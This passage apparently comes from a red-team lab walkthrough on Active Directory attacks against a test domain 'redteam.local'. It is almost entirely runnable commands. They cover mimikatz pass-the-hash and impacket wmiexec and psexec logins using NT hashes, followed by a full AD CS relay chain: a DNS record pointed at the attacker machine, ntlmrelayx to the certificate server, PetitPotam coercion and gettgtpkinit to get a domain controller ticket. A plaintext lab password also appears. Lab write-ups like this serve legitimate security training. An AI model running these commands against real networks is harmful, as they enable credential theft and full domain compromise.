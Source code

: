 ### Login to DC01 via PTH
```
.\mimikatz.exe
    privilege::debug
    sekurlsa::pth /user:adm_dc /domain:redteam.local /ntlm:{NT hash}
```

```
python3 /usr/share/doc/python3-impacket/examples/wmiexec.py -hashes :{NT hash} redteam.local/adm_dc@192.168.0.100
```

```
python3 /usr/share/doc/python3-impacket/examples/psexec.py -hashes :{NT hash} redteam.local/adm_dc@192.168.0.100
```

# Attack Path 5
### Previous steps in Attack Path 2
Note: https://github.com/fortra/impacket/issues/1716 - pyOpenSSL does not recognize PKCS12 anymore by default
You might have to add the following on top of /etc/resolv.conf
```
search redteam.local
nameserver 192.168.0.100
```

### Add DNS entry to domain (pointing to our attacker machine) (https://github.com/dirkjanm/krbrelayx)
```
sudo python3 dnstool.py -u "redteam.local\\adm_engserver" -p "MOdfr391tU3U2jS9vY" -r 'pki41UWhRCAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAYBAAAA' -d "192.168.100.1" --action add "192.168.0.100"
```

### Running ntlmrelayx for relaying request from DC01$ to CA to request a .pfx certificate as DC01$
```
sudo python3 /usr/share/doc/python3-impacket/examples/ntlmrelayx.py -debug -smb2support --target http://ca01.redteam.local/certsrv/certfnsh.asp --adcs --template KerberosAuthentication
```

### Running PetitPotam (https://github.com/topotam/PetitPotam) to obtain a certificate
```
sudo python3 PetitPotam.py -u 'adm_engserver' -p 'MOdfr391tU3U2jS9vY' -d redteam.local -dc-ip 192.168.0.100 'pki41UWhRCAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAYBAAAA' dc01.redteam.local
```

### Running gettgtpkinit.py (https://github.com/dirkjanm/PKINITtools) to obtain a TGT as DC01$ for the DC01$.pfx
```
python3 gettgtpkinit.py redteam.local/DC01\$ -cert-pfx DC01\$.pfx DC01.ccache
```
